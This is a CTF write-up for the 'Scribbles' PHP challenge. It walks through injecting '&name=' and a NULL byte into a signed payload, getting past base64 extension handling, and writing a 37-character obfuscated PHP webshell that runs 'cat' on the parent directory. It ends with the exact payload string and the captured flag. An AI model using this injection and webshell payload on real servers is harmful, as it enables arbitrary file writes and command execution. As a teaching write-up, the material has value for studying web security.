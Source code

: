 # Scribbles

## Problem

```php
<?php

require('config.php');

if ($_SERVER['REQUEST_METHOD'] !== 'POST') {
  highlight_file(__FILE__);
  exit;
}
if (empty($_GET['action'])) {

  $data = $_POST['data'];
  $name = uniqid();

  $payload = "data=$data&name=$name";
  $post = http_build_query([
    'signature' => hash_hmac('md5', $payload, FLAG),
    'payload' => $payload,
  ]);

  $ch = curl_init();
  curl_setopt($ch, CURLOPT_URL, "http://127.0.0.1" . $_SERVER['REQUEST_URI'] . "?action=log");
  curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
  curl_setopt($ch, CURLOPT_POST, 1);
  curl_setopt($ch, CURLOPT_POSTFIELDS, $post);

  echo curl_exec($ch);

} else {

  if (hash_hmac('md5', $_POST['payload'], FLAG) !== $_POST['signature']) {
    echo 'FAIL';
    exit;
  }

  parse_str($_POST['payload'], $payload);

  $target = 'files/' . time() . '.' . substr($payload['name'], -20);
  $contents = $payload['data'];
  $decoded = base64_decode($contents);
  $ext = 'raw';

  if (isset($payload['ext'])) {
    $ext = (
      ( $payload['ext'] == 'j' ) ? 'jpg' :
      ( $payload['ext'] == 'p' ) ? 'php' :
      ( $payload['ext'] == 'r' ) ? 'raw' : 'file'
    );
  }

  if ($decoded !== '') {
    $contents = $decoded;
    $target .= '.' . $ext;
  }

  if (strlen($contents) > 37) {
    echo 'FAIL';
    exit;
  }

  file_put_contents($target, $contents);

  echo 'OK';
}
```

If we request without action parameter, it will construct post payload and send request to self(with action parameter) by curl.

The `hash_hmac` key is `FLAG`, but we don't know the content.

So we can't directly forge the signature.

## Exploit

The vulnerability is on `$payload = "data=$data&name=$name";`

We can't control `$name` variable, but we can use `$data` to control `$name`

Like this: set `$data`: `xxx&name=new_name%00`

The NULL byte will truncate the original name.

Now we can control the file name.

We want to write a webshell and execute it.

But if `$decoded !== ''`, it will append extension to the filename.

So we need to find a way to set `$decoded` empty.

And we know that php's `base64_decode()` will output empty string if its input doesn't contain any valid character.
(valid character include `a-z`, `A-Z`, `0-9`, `+`, `/`, ...)

Our goal is writing a non valid character webshell and the length shold be less than 38.

There are some tips, we can use some arithmetic operation like `XOR`, `NOT`, `AND`, ...

So if we set data to ``` <?=`something`;%26name%3Dz.php%00```, the `$decoded` will be empty and the name can be controled.

The content of the file will not be decoded, it is the original content: ``` <?=`something`; ```

We can run the php script now.

## Payload

`data=<?=$_=~%9c%9e%8b;`$_ ../*>_`;%26name%3Dz.php%00`

`~%9c%9e%8b` is `cat`

so the payload will cat everthing in `../`, then write to `_`.

## Flag

config.php:

```php
<?php

set_time_limit(10);
define('FLAG', 'DCTF{7b39c8fcaef42b2f72d1f7d6f0686802bd9282f289f125281fd92c67572dd390}');

// added afterwards, not part of the challenge and keeps crashing apache because of a scenario
$_SERVER['REQUEST_URI'] = '/';
```
